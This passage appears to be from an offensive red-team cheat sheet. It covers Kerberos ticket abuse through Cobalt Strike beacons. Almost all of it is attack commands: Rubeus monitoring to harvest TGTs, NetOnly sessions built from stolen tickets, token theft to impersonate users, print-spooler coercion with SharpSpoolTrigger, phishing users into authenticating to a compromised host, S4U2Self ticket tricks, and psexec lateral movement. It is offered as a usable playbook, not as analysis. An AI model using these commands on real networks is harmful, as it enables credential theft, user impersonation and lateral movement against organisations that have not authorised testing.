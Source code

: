 #### Rubeus

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe monitor /interval:10 /nowrap
beacon> jobkill
```

### Request NetOnly Kerberos Ticket

#### Rubeus

Below will open a command prompt with the NetOnly ticket. We can then use steal\_token \<PID> and impersonate that user.

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly /
program:C:\Windows\System32\cmd.exe /ticket<user-ticket>
```

## Coerce Host Authentication

If we compromised a host, we can try to force an authentication attempt or phish a user to harvest TGTs.

#### SharpSpoolTriggers

```
beacon> execute-assembly C:\Tools\Rubeus.exe monitor /interval:10 /nowrap
beacon> execute-assembly C:\Tools\SharpSpoolTrigger.exe <target-hostname> <compromised-hostname>
```

#### Phishing

We can use Rubeus monitor and send an email to trick a user into authenticating or clicking on a host. The interaction can be as simple as including `dir \\comromised-host`

### Using Kerberos Tickets to spawn remote shell

#### TGT

```sh
// Rubeus triage, dump or monitor to get a TGT.

beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly 
/program:C:\Windows\System32\cmd.exe /ticket:<remote host users TGT>

beacon> steal_token <PID>

beacon> jump psexec64 <remote host FQDN> smb
```



#### TGS (S4U2Self Trick)

```sh
// Rubeus triage, dump or monitor to get TGT
// Get TGS from TGT

Method 1: Get TGS, create sacrificial login, and steal token.

beacon> execute-assembly C:\Tools\Rubeus.exe s4u /impersonateuser:cfoxy /self 
/altservice:cifs/<host-FQDN> /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap

beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
/domain:ROTTA /username:cfoxy /password:FakePass /ticket:doIFyD[...]MuaW8=

beacon> steal_token <PID>
```